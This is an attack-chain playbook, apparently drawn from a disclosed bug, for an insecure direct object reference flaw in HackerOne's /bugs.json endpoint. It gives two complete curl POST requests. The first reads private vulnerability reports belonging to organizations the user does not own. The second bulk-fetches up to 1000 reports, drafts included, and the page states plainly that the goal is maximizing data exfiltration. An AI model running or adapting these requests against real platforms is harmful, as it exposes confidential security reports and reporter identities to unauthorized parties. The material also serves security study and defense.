

# IDOR in HackerOne /bugs.json to Access Private Vulnerability Reports

Multi-stage attack chain demonstrating exploitation of an Insecure Direct Object Reference (IDOR) vulnerability in HackerOne's platform, allowing unauthorized access to private vulnerability reports by manipulating the organization_id and text_query parameters in POST requests to the /bugs.json endpoint. This enables viewing sensitive details such as report titles, URLs, IDs, states, severity ratings, creation dates, reporter names, and even drafted reports from private organizations.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/curl]]

### Target Environment

- HackerOne platform (web application)
- Required services/ports: HTTPS (443)
- Network access requirements: Internet access to hackerone.com

### Initial Access Requirements

- Valid authenticated session (cookies and CSRF token from a logged-in HackerOne account)
- Knowledge of target organization IDs (e.g., 58579 for a policy page org, 13 for HackerOne's internal org)
- No elevated privileges needed beyond basic authentication

## Detailed Attack Procedures

### Step 1: Query Private Reports with Text Search
procedure: [[procedures/Query-Private-Reports-via-IDOR-in-bugs-json]]

**Objective**: Demonstrate IDOR by sending a POST request to /bugs.json with a known organization ID and simple text query to retrieve private reports containing the query text, bypassing authorization checks.

**Instructions**: Authenticate to HackerOne and obtain session cookies and CSRF token. Then execute [[commands/hackerone-idor-query-reports]] to search for reports in a non-owned organization:

```bash
curl -X POST 'https://hackerone.com/bugs.json' \
  -H 'Cookie: __Host-session=Your-Session-Here' \
  -H 'X-Csrf-Token: Your-Csrf-Here' \
  -H 'Content-Type: application/x-www-form-urlencoded; charset=UTF-8' \
  -H 'X-Requested-With: XMLHttpRequest' \
  --data-urlencode 'text_query=1' \
  --data-urlencode 'organization_id=58579' \
  --data-urlencode 'persist=true' \
  --data-urlencode 'sort_type=pg_search_rank' \
  --data-urlencode 'view=message' \
  --data-urlencode 'substates[]=new' \
  --data-urlencode 'substates[]=needs-more-info' \
  --data-urlencode 'substates[]=triaged' \
  --data-urlencode 'substates[]=resolved' \
  --data-urlencode 'substates[]=informative' \
  --data-urlencode 'substates[]=not-applicable' \
  --data-urlencode 'substates[]=duplicate' \
  --data-urlencode 'substates[]=retesting' \
  --data-urlencode 'substates[]=pending-program-review' \
  --data-urlencode 'substates[]=spam' \
  --data-urlencode 'duplicates_must_have_no_ref=true'
```

**Expected Output**: JSON response array containing private report objects with fields like title, URL, ID, state, substate, severity_rating, readable_substate, created_at, submitted_at, reporter_name.

**Success Indicators**:
- JSON response includes reports from the target organization not owned by the attacker
- Sensitive details (e.g., reporter names, severity ratings) are visible

### Step 2: Bulk Fetch Private Reports with Pagination
procedure: [[procedures/Bulk-Fetch-Private-Reports-with-Pagination-via-IDOR]]

**Objective**: Refine the IDOR exploitation to fetch up to 1000 private reports (including drafts) from the target organization without a text query, using pagination and state filters to maximize data exfiltration.

**Instructions**: Using the same authenticated session, execute [[commands/hackerone-idor-bulk-fetch-reports]] to retrieve bulk data:

```bash
curl -X POST 'https://hackerone.com/bugs.json' \
  -H 'Cookie: Your-Cookies' \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0' \
  -H 'Accept: application/json, text/javascript, */*; q=0.01' \
  -H 'Accept-Language: en-US,en;q=0.5' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Referer: https://hackerone.com/bugs?subject=user' \
  -H 'X-Csrf-Token: Csrf-Token' \
  -H 'X-Requested-With: XMLHttpRequest' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  --data-urlencode 'text_query=' \
  --data-urlencode 'organization_id=13' \
  --data-urlencode 'view=open' \
  --data-urlencode 'substates[]=new' \
  --data-urlencode 'substates[]=needs-more-info' \
  --data-urlencode 'substates[]=pending-program-review' \
  --data-urlencode 'substates[]=triaged' \
  --data-urlencode 'substates[]=pre-submission' \
  --data-urlencode 'substates[]=retesting' \
  --data-urlencode 'substates[]=not-applicable' \
  --data-urlencode 'substates[]=editing' \
  --data-urlencode 'substates[]=informative' \
  --data-urlencode 'program_states[]=2' \
  --data-urlencode 'program_states[]=3' \
  --data-urlencode 'program_states[]=4' \
  --data-urlencode 'program_states[]=5' \
  --data-urlencode 'sort_type=latest_activity' \
  --data-urlencode 'sort_direction=descending' \
  --data-urlencode 'limit=1000' \
  --data-urlencode 'page=1'
```

**Expected Output**: JSON response with up to 1000 report objects, including drafted and open reports with sensitive fields like handlers and program descriptions.

**Success Indicators**:
- Large volume of private reports retrieved (e.g., 1000+ entries)
- Access to drafts and internal organization data (e.g., from org ID 13)

## Attack Chain Summary

### Key Achievements

1. Unauthorized access to private vulnerability reports across organizations via IDOR.
2. Exfiltration of sensitive metadata including reporter identities and severity ratings.
3. Bulk retrieval of drafted and open reports, enabling comprehensive data leakage.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]] Exploit Public-Facing Application
- [[Account Discovery]] Account Discovery

### MITRE ATT&CK Tactics

- [[Discovery]] Discovery

---

*Last updated: 2024-01-01T00:00:00Z*
